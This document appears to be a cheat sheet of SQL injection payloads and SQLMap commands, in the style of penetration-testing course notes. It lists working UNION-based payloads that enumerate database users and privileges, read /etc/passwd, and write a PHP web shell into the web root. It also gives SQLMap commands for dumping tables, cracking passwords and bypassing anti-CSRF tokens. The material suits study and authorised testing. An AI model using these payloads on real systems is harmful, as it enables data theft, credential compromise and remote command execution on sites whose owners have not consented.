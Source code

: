 #### Privileges

| Payload                                                                 | Description                 |
|-------------------------------------------------------------------------|-----------------------------|
| `cn' UNION SELECT 1, user(), 3, 4-- -`                                  | Find current user           |
| `cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -` | Find if user has admin privileges |
| `cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -` | Find all user privileges |
| `cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -` | Find which directories can be accessed through MySQL |

#### File Injection

| Payload                                                                 | Description                 |
|-------------------------------------------------------------------------|-----------------------------|
| `cn' UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -`                | Read local file             |
| `select 'file written successfully!' into outfile '/var/www/html/proof.txt'` | Write a string to a local file |
| `cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -` | Write a web shell into the base web directory |

# SQLMap Commands

| Command                                                                 | Description                                           |
|-------------------------------------------------------------------------|-------------------------------------------------------|
| `sqlmap -h`                                                             | View the basic help menu                              |
| `sqlmap -hh`                                                            | View the advanced help menu                           |
| `sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`              | Run SQLMap without asking for user input              |
| `sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`             | SQLMap with POST request                              |
| `sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`            | POST request specifying an injection point with an asterisk |
| `sqlmap -r req.txt`                                                     | Passing an HTTP request file to SQLMap                |
| `sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`      | Specifying a cookie header                            |
| `sqlmap -u www.target.com --data='id=1' --method PUT`                   | Specifying a PUT request                              |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt` | Store traffic to an output file                       |
| `sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`          | Specify verbosity level                               |
| `sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`   | Specifying a prefix or suffix                         |
| `sqlmap -u www.example.com/?id=1 -v 3 --level=5`                        | Specifying the level and risk                         |
| `sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba` | Basic DB enumeration                                  |
| `sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`           | Table enumeration                                     |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname` | Table/row enumeration                                 |
| `sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"` | Conditional enumeration                               |
| `sqlmap -u "http://www.example.com/?id=1" --schema`                     | Database schema enumeration                           |
| `sqlmap -u "http://www.example.com/?id=1" --search -T user`             | Searching for data                                    |
| `sqlmap -u "http://www.example.com/?id=1" --passwords --batch`          | Password enumeration and cracking                     |
| `sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"` | Anti-CSRF token bypass                                |
| `sqlmap --list-tampers`                                                 | List all tamper scripts                               |
| `sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`            | Check for DBA privileges                              |